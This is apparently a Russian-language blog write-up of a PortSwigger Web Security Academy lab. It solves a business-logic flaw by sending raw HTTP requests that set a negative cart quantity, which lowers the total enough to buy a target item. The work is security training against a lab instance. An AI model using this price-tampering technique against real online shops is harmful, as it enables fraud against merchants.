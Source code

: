 ```yaml
---
title: "High-level logic vulnerability"
date: 2025-10-16
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-high-level"
classes: wide
---
```


В лабе плохо валидируется ввод. Для прохождения нужно купить `Lightweight l33t leather jacket`. Даны креды для учетной записи `wiener`:`peter`.

```
https://0ab000a804be19f1810198cc00310021.web-security-academy.net/
```

# Solution

Зайду в ЛК. 

```http
POST /login HTTP/2
Host: 0ab000a804be19f1810198cc00310021.web-security-academy.net
Cookie: session=EJJfKxdsWv6s9HPUkUCxtQuxovK2Q5lZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ab000a804be19f1810198cc00310021.web-security-academy.net/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: https://0ab000a804be19f1810198cc00310021.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=R9t0O6GqgiZOVnREVHHS6VRp3PlJ4GnE&username=wiener&password=peter
```

Добавлю и куплю товар:

```http
POST /cart HTTP/2
Host: 0ab000a804be19f1810198cc00310021.web-security-academy.net
Cookie: session=EJJfKxdsWv6s9HPUkUCxtQuxovK2Q5lZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ab000a804be19f1810198cc00310021.web-security-academy.net/product?productId=3
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://0ab000a804be19f1810198cc00310021.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=3&redir=PRODUCT&quantity=1
```

```http
POST /cart/checkout HTTP/2
Host: 0ab000a804be19f1810198cc00310021.web-security-academy.net
Cookie: session=TXt9fRLvAo4pK8N6YO4uKYsVEeN1s9Dy
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ab000a804be19f1810198cc00310021.web-security-academy.net/cart
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0ab000a804be19f1810198cc00310021.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=Ly9cEQvMmiwvcom3wGFsMeXBKmQYNQ1U
```

Хмм. Мне не дает покоя поле `quantity`. Попробую подставить в него отрицательное значение:

```http
POST /cart HTTP/2
Host: 0ab000a804be19f1810198cc00310021.web-security-academy.net
Cookie: session=TXt9fRLvAo4pK8N6YO4uKYsVEeN1s9Dy
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ab000a804be19f1810198cc00310021.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0ab000a804be19f1810198cc00310021.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=1&redir=PRODUCT&quantity=-2
```

Замечательно:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_high-level/1.png){: height="200" .align-center}

Хмм. Просчитались, но где... Ок. Добавим в корзину что-нибудь еще.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_high-level/2.png){: height="200" .align-center}

Вам нужны 15 бассейнов? Да!

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_high-level/3.png){: height="200" .align-center}

У меня получилось сделать заказ. Но есть проблема. Мне нужно сделать баланс отрицательным, а потом добавить куртку. Сделаю это:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_high-level/4.png){: height="200" .align-center}

15 бассейнов оказались лишними. Ну да ладно. Лаба решена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_high-level/5.png){: height="200" .align-center}